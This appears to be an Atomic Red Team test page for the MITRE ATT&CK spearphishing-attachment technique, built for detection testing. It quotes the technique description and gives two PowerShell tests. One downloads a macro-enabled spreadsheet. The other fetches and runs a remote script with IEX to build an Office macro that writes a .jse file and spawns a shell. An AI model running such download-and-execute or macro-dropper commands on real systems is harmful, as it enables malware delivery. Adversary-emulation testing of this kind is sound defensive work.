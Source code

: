 # T1566.001 - Phishing: Spearphishing Attachment
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1566/001)
<blockquote>

Adversaries may send spearphishing emails with a malicious attachment in an attempt to gain access to victim systems. Spearphishing attachment is a specific variant of spearphishing. Spearphishing attachment is different from other forms of spearphishing in that it employs the use of malware attached to an email. All forms of spearphishing are electronically delivered social engineering targeted at a specific individual, company, or industry. In this scenario, adversaries attach a file to the spearphishing email and usually rely upon [User Execution](https://attack.mitre.org/techniques/T1204) to gain execution.(Citation: Unit 42 DarkHydrus July 2018) Spearphishing may also involve social engineering techniques, such as posing as a trusted source.

There are many options for the attachment such as Microsoft Office documents, executables, PDFs, or archived files. Upon opening the attachment (and potentially clicking past protections), the adversary's payload exploits a vulnerability or directly executes on the user's system. The text of the spearphishing email usually tries to give a plausible reason why the file should be opened, and may explain how to bypass system protections in order to do so. The email may also contain instructions on how to decrypt an attachment, such as a zip file password, in order to evade email boundary defenses. Adversaries frequently manipulate file extensions and icons in order to make attached executables appear to be document files, or files exploiting one application appear to be a file for a different one. 

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download Macro-Enabled Phishing Attachment](#atomic-test-1---download-macro-enabled-phishing-attachment)

- [Atomic Test #2 - Word spawned a command shell and used an IP address in the command line](#atomic-test-2---word-spawned-a-command-shell-and-used-an-ip-address-in-the-command-line)


<br/>

## Atomic Test #1 - Download Macro-Enabled Phishing Attachment
This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating an end user clicking a phishing link to download the file.
The file "PhishingAttachment.xlsm" is downloaded to the %temp% directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 114ccff9-ae6d-4547-9ead-4cd69f687306






#### Attack Commands: Run with `powershell`! 


```powershell
$url = 'https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1566.001/bin/PhishingAttachment.xlsm'
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Word spawned a command shell and used an IP address in the command line
Word spawning a command prompt then running a command with an IP address in the command line is an indicator of malicious activity.
Upon execution, CMD will be launched and ping 8.8.8.8.

**Supported Platforms:** Windows


**auto_generated_guid:** cbb6799a-425c-4f83-9194-5447a909d67f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | Path for the macro to write out the "malicious" .jse file | string | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```

#### Cleanup Commands:
```powershell
Remove-Item #{jse_path} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>

